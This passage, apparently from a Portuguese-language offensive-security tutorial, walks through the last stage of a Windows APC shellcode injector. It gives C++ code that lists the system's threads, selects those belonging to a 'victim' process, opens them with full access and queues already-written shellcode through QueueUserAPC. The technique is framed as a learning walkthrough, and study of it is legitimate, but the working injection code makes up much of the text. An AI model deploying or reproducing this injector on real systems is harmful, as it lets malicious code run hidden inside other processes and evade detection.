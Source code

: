 ```cpp
   std::wcout << "[+] Getting list of all threads in the system..." << std::endl;
    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        std::wcout << "[-] Error in getting list of active threads" << std::endl;
        return 1;
    }
```

Na última parte do injetor, devemos instanciar uma struct `THREADENTRY32` que servirá para armazenar temporariamente cada thread do sistema no laço `for`. Seu valor vai ser modificado a cada iteração por `Thread32Next`.

Para injetarmos apenas nas threads do processo vítima, realizaremos a comparação `threadEntry.th32OwnerProcessID == procEntry.th32ProcessID`, onde o PID do processo que contém a thread é comparado com o PID do nosso processo alvo.

Caso essa comparação seja verdadeira, iremos obter um handle de acesso total à thread com [OpenThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openthread), repassando o valor `THREAD_ALL_ACCESS` como primeiro argumento.

Por fim, usaremos [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc), repassando a localização remota do shellcode escrito, o handle para a thread e o valor NULL - para indicar que não é necessário repassar argumentos para o shellcode.

```cpp
    THREADENTRY32 threadEntry;
    threadEntry.dwSize = sizeof(THREADENTRY32);

    // Finally, call QueueUserAPC to the main thread
    std::wcout << "[+] Getting list of active threads in target process..." << std::endl;

    unsigned int i = 0;
    for (auto thread = Thread32First(hSnapshot, &threadEntry); thread && i < THREAD_INJECTION_LIMIT; thread = Thread32Next(hSnapshot, &threadEntry)) {
        if (threadEntry.th32OwnerProcessID == procEntry.th32ProcessID) {
            // Code for queueing APC to main thread
            HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, 0, threadEntry.th32ThreadID);
            if (!hThread) {
                std::wcout << "[-] Failed opening thread " << threadEntry.th32ThreadID << std::endl;
                continue;
            }
            
            std::wcout << "[+] Queueing APC for thread " << threadEntry.th32ThreadID << "..." << std::endl;
            QueueUserAPC((PAPCFUNC)allocatedMem, hThread, NULL);
            i++;
        }

    }
}
```
